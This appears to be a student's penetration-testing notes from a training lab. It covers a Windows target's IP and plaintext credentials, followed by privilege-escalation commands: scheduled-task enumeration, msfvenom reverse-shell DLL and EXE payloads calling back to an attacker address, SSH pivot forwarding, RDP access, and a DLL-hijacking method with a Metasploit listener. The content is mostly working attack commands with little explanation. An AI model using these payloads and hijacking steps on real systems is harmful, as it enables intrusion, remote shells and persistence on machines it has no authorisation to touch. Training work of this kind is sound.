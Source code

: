 T1
Hostname: donovian-windows-private
IP: 192.168.28.5
OS: Windows ver: Unknown
Creds: comrade :: StudentPrivPassword
Last Known Ports: 3389
PSP: unknown
Malware: unknown
Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.


==================================================================================================
==================================================================================================
# PRIV ESC, PERSIST, COVER TRACKS 
  
schtasks /query /fo LIST /v | Select-String -Pattern "Task To Run" -CaseSensitive |Select-String -Pattern "COM   handler" -NotMatch

sigcheck C:\Users\student\exercise_2\putty.exe      --- check execution level, -- check version numbers

icacls   C:\Users\student\exercise_2\putty.exe      --- checks if directory can be written too




msfvenom -p windows/shell_reverse_tcp LHOST=10.50.25.1 LPORT=4444 -f dll > WINMM.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.50.25.1 LPORT=4444 -f exe > rename.exe



ssh -S /tmp/jump -O forward -L10000:192.168.28.105:2222 DUMB       ##forward to pivot
ssh -MS /tmp/Pivot comrade@127.0.0.1 -p10000                       ##multisocket/conn. to Pivot
ssh -S /tmp/Pivot -O forward -L10001:192.168.28.105:3389 what      ##pivot to T1

xfreerdp /v:127.0.0.1:10005 /u:Lroth +clipboard +dynamic-resolution +glyph-cache


**FIND SERVICE THAT IS CALLING OUT TO A CERTAIN DLL THAT DOESNT EXIST AND MAKE A DLL WITH THAT NAME, OR IF IT DOES EXIST MAKE YOURS BE READ BEFORE THE REAL ONE, THE ORDER IS IN FG**


load up msfconsole 
set payload windows/shell_reverse_tcp
set lhost 0.0.0.0
set lport 4444

restart the machine because the service dll is loaded on boot.

===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
===================================================================================================
# PRIV ESC, PERSIST & COVERING TRACKS LINUX
  